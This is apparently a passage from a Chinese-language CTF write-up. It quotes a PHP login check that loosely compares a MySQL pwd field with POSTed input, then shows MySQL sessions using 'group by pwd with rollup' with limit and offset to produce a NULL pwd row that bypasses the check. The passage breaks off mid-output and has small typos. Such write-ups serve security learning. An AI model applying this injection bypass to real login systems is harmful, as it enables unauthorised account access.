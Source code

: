 ```
    $key = mysql_fetch_array($query);
    if($key['pwd'] == $_POST['pwd']) {
        print "CTF{XXXXXX}";
    }else{
        print "亦可赛艇！";
    }
}else{
	print "一颗赛艇！";
}
mysql_close($con);
?>
```
阅读源码可知，我们需要让数据库返回的pwd字段与我们post的内容相同，注意此处是弱类型比较。  
我们知道grou by with roolup 将创建个虚拟表，且表的最后一行pwd字段为Null。  
>mysql> create table test (  
    -> user varchar(100) not null,  
    -> pwd varchar(100) not null);    
mysql>insert into test values("admin","mypass");  
mysql>select * from test group by pwd with rollup  
mysql> select * from test group by pwd with rollup;  
+-------+------------+  
| user  | pwd        |  
+-------+------------+  
| guest | alsomypass |  
| admin | mypass     |  
| admin | NULL       |  
+-------+------------+  
3 rows in set  
mysql> select * from test group by pwd with rollup limit 1  
;  
+-------+------------+  
| user  | pwd        |  
+-------+------------+  
| guest | alsomypass |  
+-------+------------+  
mysql> select * from test group by pwd with rollup limit 1 offset 0  
;  
+-------+------------+  
| user  | pwd        |  
+-------+------------+  
| guest | alsomypass |  
+-------+------------+  
1 row in set  
mysql> select * from test group by pwd with rollup limit 1 offset 1  
;  
+-------+--------+  
| user  | pwd    |  
+-------+--------+  
| admin | mypass |  
+-------+--------+  
1 row in set  
mysql> select * from test group by pwd with rollup limit 1 offset 2  
;  
+-------+------+  
| user  | pwd  |  